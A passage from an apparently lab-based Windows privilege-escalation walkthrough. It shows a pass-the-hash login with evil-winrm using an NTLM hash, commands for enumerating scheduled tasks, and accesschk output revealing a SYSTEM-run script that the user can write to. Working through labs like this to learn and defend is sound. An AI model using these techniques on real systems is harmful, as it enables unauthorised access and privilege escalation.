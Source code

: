 > Hashes that begin with `"31d6"` are hashes of empty string which means that the account is either disabled or it has no password.

### Passing the Hash 

Instead of cracking hashes, we can also pass them directly:

```console
root@kali:~/thm/windows10privesc# evil-winrm -i 10.10.127.237 -u admin -H "a9fdfa038c4b75ebc76dc855dd74f0da" -n

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\admin\Documents> whoami
win-qba94kb3iof\admin
```

___

## Scheduled Tasks

List all scheduled tasks your user can see:

```cmd
> schtasks /query /fo LIST /v
```

In PowerShell:

```powershell
PS> Get-ScheduledTask| where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

### Practical example

```cmd
C:\Users\user>type C:\DevTools\CleanUp.ps1
type C:\DevTools\CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
```

According to the comments, this script is running every minute as system, likely via a scheduled task.

Let's use **accesschck.exe** to check our permissions on this script:

```cmd
C:\Users\user>C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
RW C:\DevTools\CleanUp.ps1
        FILE_ADD_FILE
        FILE_ADD_SUBDIRECTORY
        FILE_APPEND_DATA
        FILE_EXECUTE
        FILE_LIST_DIRECTORY
        FILE_READ_ATTRIBUTES
        FILE_READ_DATA
        FILE_READ_EA
        FILE_TRAVERSE
        FILE_WRITE_ATTRIBUTES
        FILE_WRITE_DATA
        FILE_WRITE_EA
        DELETE
        SYNCHRONIZE
```